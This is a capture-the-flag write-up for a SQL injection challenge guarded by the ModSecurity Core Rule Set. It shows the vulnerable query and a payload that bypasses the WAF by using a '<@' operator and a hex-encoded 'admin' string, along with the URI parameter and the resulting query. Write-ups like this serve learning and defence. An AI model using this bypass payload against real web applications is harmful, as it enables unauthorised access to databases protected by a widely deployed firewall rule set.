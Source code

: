 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 34
tags: [SQLi, MOD Security CRS, WAF bypass]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a437eb74-eff7-45be-bd3f-86e2c56d7dc3)

We are provided with the SQL query:

```sql
SELECT id FROM prob_death WHERE id='{$_GET[id]}' AND pw=md5('{$_GET[pw]}')
```

In this challenge as well, the Mod Security CRS is being used

&nbsp;

## MOD Security CRS

The MOD Security Core Rule Set, is a set of regex expressions that Web Application Firewalls can use to filter traffic. In this case, out input is being filtered based on this rule set.

In order to bypass this, we can refer [this](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181)Github issue.

![2](https://github.com/Kunull/Write-ups/assets/110326359/31d7abb4-4869-4388-8db4-c0c69df40d67)

However, we have to modify the payload slightly.

```
-1'<@=1 OR id LIKE 0x61646d696e OR '
```

&nbsp;

If we provide the following URI parameter:

```
?id=-1'<@=1 OR id LIKE 0x61646d696e OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_death WHERE id='-1'<@=1 OR id LIKE 0x61646d696e OR '' AND pw=md5('')
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/fbb5b672-a29d-42bb-8cf5-20480dd42ddb)
